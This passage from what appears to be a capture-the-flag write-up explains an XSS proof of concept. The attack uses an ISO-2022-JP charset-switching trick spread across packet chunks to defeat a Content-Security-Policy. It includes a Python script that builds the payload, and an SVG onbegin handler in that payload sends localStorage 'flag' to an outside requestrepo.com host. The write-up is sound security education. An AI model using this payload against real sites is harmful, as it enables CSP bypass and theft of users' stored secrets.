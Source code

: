 ![3.png](/images/sekai/3.png)

## POC

So let’s just  recap every key point in order to trigger an xss:

- We create an html document
- We open the head tag and we put in a comment a valid `ISO-2022-JP` encoding sequence from the above
- We declare right after the csp
- We send junk datas in a comment just to fill the tcp packet and therefore to complete the first chunk
- We didn’t close the head tag before so let’s put a charset meta tag and close it
- We open the body and put a payload which will trigger xss(i searched for non blacklisted event handlers and tags)

The exploit is the following but let me explain what happens in detail

```python
import requests

#0xAlessandro was here
c1 = b'''<html><head>
    <!-- \x1b$@ aa -->''' + b'''
<meta http-equiv="Content-Security-Policy" content="default-src 'none'">
\x1b(B <!-- test -->
''' + b"\x1b(B<!-- " + b"A"*64000 + b"-->"+ b"<!--"+b"A"*100+b"-->"

c2 = b'''
    <meta charset="utf-8">
    </head>
    <body>
    <svg><animate onbegin="fetch(`https://s9cs3dwb.requestrepo.com?c=${localStorage.getItem('flag')}`)" attributeName="x" dur="1s">
    </body>
</html>'''

html = c1 + c2
```